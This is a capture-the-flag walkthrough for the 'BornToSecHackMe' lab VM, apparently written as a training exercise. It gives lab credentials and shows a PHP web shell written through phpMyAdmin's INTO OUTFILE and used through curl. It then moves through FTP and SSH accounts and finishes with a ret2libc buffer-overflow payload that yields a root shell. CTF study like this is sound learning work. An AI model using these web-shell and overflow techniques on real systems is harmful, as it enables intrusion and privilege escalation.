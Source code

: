 ## phpmyadmin

Login with `root/Fg-'kKXBj87E:aJ$`

```
SELECT "<?php if(isset($_GET['cmd'])){system($_GET['cmd']);}?>" INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```
We injected our shell into a file `shell.php` under directory `/var/www/forum/templates_c` which we have write permission.

```
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=whoami'
www-data
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=find+/home+-user+www-data'
/home
/home/LOOKATME
/home/LOOKATME/password
$ curl -k 'https://$VMIP/forum/templates_c/shell.php?cmd=cat+/home/LOOKATME/password'
lmezard:G!@M6f4Eatau{sF"
```

## FTP
Login with `lmezard:G!@M6f4Eatau{sF"`

```
$ ftp lmezard@$VMIP
Connected to 192.168.57.2.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.

$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

```
$ file fun
fun: POSIX tar archive (GNU)
$ tar -xf fun
```

```
$ printf 'Iheartpwnage' | shasum -a 256
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

## ssh laurie
Login with `laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`.
```
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

```
laurie@BornToSecHackMe:~$ ./bomb
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opekmq
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```
Now we have the password for thor `Publicspeakingisveryeasy.126241207201b2149opekmq426315`. According to a [stackoverflow thread](https://stackoverflow.com/c/42network/questions/664), these is an error in the ISO file, the real password is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`.

## ssh thor
Login with `thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135`

```
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```

```
$ md5 -s SLASH
MD5 ("SLASH") = 646da671ca01bb5d84dbb5fb2238dc8e
```
The filename itself is a hint. We need to play with a Python lib called [turtle](https://docs.python.org/3/library/turtle.html). We got the string `SLASH`. The password is MD5 hash of `SLASH`.

## ssh zaz

Login with `zaz:646da671ca01bb5d84dbb5fb2238dc8e`.

```
zaz@BornToSecHackMe:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" exploit_me
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
=> 0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    eax,[esp+0x10]
```
`exploit_me` calls `strcpy` function to copy our input `argv[1]` directly into a buffer without checking its size. We can simply overwrite `eip`.


```
zaz@BornToSecHackMe:~$ gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) break *0x08048420
Breakpoint 1 at 0x8048420
(gdb) run 42
Starting program: /home/zaz/exploit_me 42

Breakpoint 1, 0x08048420 in main ()
(gdb) info registers eax
eax            0xbffff6d0	-1073744176
(gdb) info frame
Stack level 0, frame at 0xbffff760:
 eip = 0x8048420 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff758, args:
 Locals at 0xbffff758, Previous frame's sp is 0xbffff760
 Saved registers:
  ebp at 0xbffff758, eip at 0xbffff75c
(gdb) print 0xbffff75c - 0xbffff6d0
$1 = 140
```
We got offset 140 by calculate `eip - eax`.

```
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
```
We found all the information to do a `ret2libc` attack.

```
zaz@BornToSecHackMe:~$ ./exploit_me `perl -e 'print "A"x140 . pack("V", 0xb7e6b060) . pack("V", 0xb7e5ebe0) . pack("V", 0xb7f8cc58)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X��
# whoami
root
```

